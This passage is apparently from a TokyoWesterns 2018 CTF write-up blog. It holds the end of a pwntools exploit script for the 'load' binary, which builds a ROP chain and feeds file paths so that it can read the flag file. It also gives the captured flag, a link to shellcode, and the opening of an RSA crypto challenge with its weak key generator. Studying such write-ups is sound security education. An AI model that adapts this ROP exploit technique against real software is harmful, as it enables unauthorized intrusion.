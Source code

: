     rop += rdi(0x601000)
    rop += p64(0x0000000004006C0)

    r.sendline( "/proc/self/fd/0\x00" + "/dev/pts/"+sys.argv[1]+"\x00" + "/home/load/flag.txt\x00" )
    r.sendline("0")
    r.sendline(str(len(rop)))
    r.sendline(rop)

    r.interactive()
    return

if __name__ == "__main__":
    context.terminal=["tmux", "sp", "-h"]
    binary = "./load"
    e = ELF(binary)

    #libc_name = ""
    #libc = ELF(libc_name)

    if len(sys.argv) > 1:
        r = remote(HOST, PORT)
    else:
        r = process(elf_name, env={})
        gdb.attach(r, """

        c
        """)
    exploit(r)
```

```bash
TWCTF{pr0cf5_15_h1ghly_fl3x1bl3}
```

[load]:{{site.baseurl}}/ctf/TokyoWesterns18/load/load
[exploit]:{{site.baseurl}}/ctf/TokyoWesterns18/load/exploit.py
[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php

# Revolutional Secure Angou (Crypto)
For this challenge, we're given a zip file containing an RSA public key, the encrypted flag, and the `generator.rb` script used to generate the public key and encrypted flag.

```ruby
require 'openssl'

e = 65537
while true
  p = OpenSSL::BN.generate_prime(1024, false)
  q = OpenSSL::BN.new(e).mod_inverse(p)
  next unless q.prime #continue generating p,q until q.prime evaluates to TRUE
  key = OpenSSL::PKey::RSA.new
  key.set_key(p.to_i * q.to_i, e, nil)
  File.write('publickey.pem', key.to_pem)
  File.binwrite('flag.encrypted', key.public_encrypt(File.binread('flag')))
  break
end
```
